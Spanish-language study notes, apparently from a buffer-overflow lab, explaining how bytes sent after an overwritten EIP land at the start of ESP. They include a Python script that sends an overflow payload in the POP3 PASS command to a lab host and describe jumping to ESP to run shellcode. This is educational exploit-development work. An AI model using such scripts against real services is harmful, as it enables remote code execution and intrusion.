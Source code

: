 Una vez que se ha encontrado el **offset** y se ha sobrescrito el valor del registro **EIP** en un buffer overflow, el siguiente paso es identificar en qué parte de la memoria se están representando los caracteres introducidos en el campo de entrada.

Después de sobrescribir el valor del registro EIP, cualquier carácter adicional que introduzcamos en el campo de entrada, veremos desde Immunity Debugger que en este caso particular estos estarán representados al comienzo de la **pila** (**stack**) en el registro **ESP** (**Extended Stack Pointer**). El ESP (Extended Stack Pointer) es un registro de la CPU que se utiliza para manejar la pila (stack) en un programa. La pila es una zona de memoria temporal que se utiliza para almacenar valores y **direcciones de retorno** de las funciones a medida que se van llamando en el programa.

Entonces esto lo podriamos ver al modificar el script que se hizo anteriormente  como se muestra a continuacion 

```python
#!/usr/bin/python3.11
import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=b"B"*4

after_eip=b"C"*200

payload=before_eip+eip+after_eip

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()


```

Ahora lo ejecutamos de la siguiente manera

![[Pasted image 20240308125659.png]]

Ya ejecutado y si nos dirigmos al immuniyt debugger podemos ver que todo le que mandamos despues del EIP se almaceno el en registro ESP (en este caso las ces)

![[Pasted image 20240308125852.png]]


Lo que puedes hacer para ver el ESP mas detalladamente es dar click derecho en el registro y luego dar click en lo siguiente


![[Pasted image 20240308130841.png]]


Y aqui podrimaos ver mejor respresentado todo el ESP en este caso podemos ver todas las ces que hemos definido en el exploit

![[Pasted image 20240308131110.png]]

Asi que nuestras ces estan represntadas y comienzan justo al inicio del ESP entonces lo siguiente que tendiramos que hacer es hacer que el EIP apunte a una direccion donde se aplique un salto al ESP para que ahi ya se ejecute  lo que estuviera dentro del ESP en este caso se podria intruducir un shellcode 